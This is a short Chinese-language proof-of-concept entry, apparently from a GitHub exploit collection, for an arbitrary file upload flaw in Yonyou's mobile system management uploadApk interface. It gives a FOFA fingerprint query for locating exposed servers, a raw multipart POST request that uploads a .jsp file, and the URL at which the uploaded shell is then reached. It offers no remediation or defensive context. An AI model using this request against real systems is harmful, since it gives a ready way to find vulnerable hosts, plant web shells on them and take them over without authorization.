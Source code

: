 ## 用友移动系统管理uploadApk接口存在任意文件上传

## fofa
```
body="../js/jslib/jquery.blockUI.js"
```


## poc
```
POST /maportal/appmanager/uploadApk.dopk_obj= HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 196

--fa48ebfef59b133a8cd5275661b35d2c
Content-Disposition: form-data; name="downloadpath"; filename="59209.jsp"
Content-Type: application/msword

082863327
--fa48ebfef59b133a8cd5275661b35d2c--
```
![image](https://github.com/wy876/POC/assets/139549762/28bb2ff0-4455-40aa-95b3-c1815f2ee85b)

上传的shell地址拼接：

http://127.0.0.1/maupload/apk/59209.jsp
